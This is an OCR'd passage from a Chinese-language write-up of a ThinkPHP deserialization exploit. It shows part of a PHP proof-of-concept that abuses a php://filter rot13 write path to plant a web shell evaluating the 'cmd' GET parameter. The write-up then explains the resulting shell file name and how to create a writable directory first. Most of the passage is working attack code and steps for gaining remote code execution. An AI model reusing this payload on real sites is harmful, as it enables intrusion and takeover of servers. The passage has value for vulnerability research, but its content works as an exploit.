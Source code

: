 ```
‘cache_subdir’  => false,

‘prefix’        => ‘’,

‘path’          => ‘php://filter/write=string.rot13/resource=./<?cuc cucvasb();riny($_TRG[pzq]);?>’,

‘data_compress’ => false,

];

$this->tag = true;

}

}

namespace think\model;

use think\Model;

class Pivot extends Model{ `}

use think\process\pipes\Windows;

echo base64_encode(serialize(new Windows()));` 
```

该poc仅可在linux下使用，Windows对文件名有限制。

生成文件名规则：

```
md5('tag_'.md5($this->tag))
即:
md5('tag_c4ca4238a0b923820dcc509a6f75849b')
=>3b58a9545013e88c7186db11bb158c44
=>
<?cuc cucvasb();riny($_TRG[pzq]);?> + 3b58a9545013e88c7186db11bb158c44
最终文件名：
<?cuc cucvasb();riny($_TRG[pzq]);?>3b58a9545013e88c7186db11bb158c44.php 
```

在漏洞利用时需注意目录读写权限，可先控制options[‘path’] = ‘./demo/‘，利用框架创建一个755文件夹（前提是具有权限）

我们可以稍微修改下 **payload** 用于创建一个 **0755** 权限的目录（这里利用的是 **think\cache\driver\File:getCacheKey()** 中的 **mkdir** 函数），然后再往这个目录写文件。
